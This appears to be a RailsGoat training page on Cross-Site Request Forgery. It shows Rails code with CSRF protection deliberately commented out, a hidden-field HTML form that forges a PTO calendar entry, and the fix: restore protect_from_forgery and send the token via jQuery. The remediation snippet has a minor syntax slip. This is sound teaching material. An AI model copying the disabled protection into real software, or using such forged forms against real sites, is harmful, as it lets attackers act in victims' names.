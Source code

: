 # Description

A CSRF attack forces a logged-on victim’s browser to send a forged HTTP request, including the victim’s session cookie and any other automatically included authentication information, to a vulnerable web application. This allows the attacker to force the victim’s browser to generate requests the vulnerable application thinks are legitimate requests from the victim.

# Bug

Cross-Site Request Forgery (CSRF) - The following code was taken from: /app/controllers/application_controller.rb and /app/views/layouts/application.html.erb

application_controller.rb

```ruby
# Our security guy keep talking about sea-surfing, cool story bro.
# protect_from_forgery
```

application.html.erb

```erb
<%#= csrf_meta_tags %> <!-- <~ What is this for? I hear it helps w/ JS and Sea-surfing.....whatevz -->
```
# Solution

### Cross-Site Request Forgery ATTACK:

The application allows users to update their calendar and schedule PTO events (PTO section). Due to the fact CSRF protections are disabled, the AJAX request will send the authenticity token but the application will not validate either its presence or validity. Create an html page using the code shown below, authenticate as another user, click on it, review the new calendar (change the dates under date_range1). You should see this HTML code will work, even if you hadn't navigated to the PTO section prior to sending it.

```html
<html>
 <body>
   <form action="http://railsgoat.dev/schedule.json" method="POST">
     <input type="hidden" name="schedule&#91;event&#95;name&#93;" value="Bad&#32;Guy" />
     <input type="hidden" name="schedule&#91;event&#95;type&#93;" value="pto" />
     <input type="hidden" name="schedule&#91;event&#95;desc&#93;" value="Fun&#32;Fun" />
     <input type="hidden" name="date&#95;range1" value="06&#47;08&#47;2013&#32;&#45;&#32;06&#47;09&#47;2013" />
     <input type="submit" value="Submit request" />
   </form>
 </body>
</html>
```

### Cross-Site Request Forgery SOLUTION:

By default, the protect_from_forgery directive is added under the application_controller.rb at project creation. However, occasionally developers turn it off (comment out) because of issues with JS. There are two separate solutions around the JS problem.

Once protect_from_forgery is added back, add the following code within the header section of the application.html.erb file (or any other application layout file).

```erb
<%= csrf_meta_tags %>
```

That will allow you to parse the meta tag with JS. However, keep in mind that any form generated by Rails is populated with an authenticity token so, if you leverage something like JQuery to make an Ajax request, you can include all values within the form by using the technique shown next.

Leverage the serialize() method, shown on line 3. This grabs all the values from the form, including the authenticity token.

```javascript
("#example_submit_button_id").click(function(event) {
    var valuesToSubmit = $("#example_form_id").serialize();
    event.preventDefault();
    $.ajax({
      url: "/example",
      data: valuesToSubmit,
      type: "POST",
      success: function(response) {
        alert('success!');
      },
      error: function(event) {
        alert('failure!');
      }
    });
});
} 
```

# Hint

PTO is precious, glad my calendar is safe!